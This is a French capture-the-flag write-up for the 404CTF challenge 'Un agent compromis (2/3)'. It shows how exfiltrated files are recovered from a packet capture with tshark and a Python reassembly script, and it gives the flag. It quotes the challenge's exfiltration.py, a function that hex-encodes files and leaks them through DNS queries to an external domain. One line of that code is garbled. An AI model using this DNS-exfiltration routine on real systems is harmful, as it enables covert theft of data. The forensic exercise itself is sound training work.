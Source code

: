 ## Un agent compromis (2/3)

### Description

Après avoir retrouvé le script ``exfiltration.py``, on nous demande de retrouver les données exfiltrées via ce script.
Le script nous montre clairement qu'il s'agit d'un exfiltration DNS :
```python
def exfiltrate_file(filename):
    dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")
    time.sleep(0.1)
    dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")
    content = re)
    time.sleep(0.1)
    dns.resolver.resolve("626567696E.hallebarde.404ctf.fr")
    time.sleep(0.1)
    for i in range(len(content)//32):
        hostname = content[i * 32: i * 32 + 32].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    if len(content) > (len(content)//32)*32:
        hostname = content[(len(content)//32)*32:].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    dns.resolver.resolve("656E64.hallebarde.404ctf.fr")
    time.sleep(60)
```
De plus, on peut identifier des balises indiquant le début d'un fichier, la fin du nom du fichier, et la fin du fichier.

### Solution

A partir de là, il faut lire chaque requête dns effectuée vers ``hallebarde.ctf.fr``, et reconstituer les fichiers suivant le code :
```python
import os

data = os.popen('tshark -r capture-reseau.pcapng -Y "ip.src == 192.168.122.1" -T fields -e dns.qry.name | grep hallebarde').read().split('\n')

files = {}
bool_name = False
bool_file = False
file_data = b''
curr_name = b''
for query in data:
    query = query.split('.')[0]
    if query == "never-gonna-give-you-up":
        bool_name = True
        continue
    elif query == "626567696E":
        bool_name = False
        bool_file = True
        continue
    elif query == "656E64":
        bool_file = False
        files[curr_name.decode()] = file_data
        curr_name = b''
        file_data = b''
        continue
    if bool_name:
        curr_name += bytearray.fromhex(query)
    elif bool_file:
        file_data += bytearray.fromhex(query)
    

for name in files.keys():
    open(name,'wb').write(files[name])
```
On peut alors reconstituer le flag : 404CTF{exfiltration.py,flag.txt,hallebarde.png,super-secret.pdf}.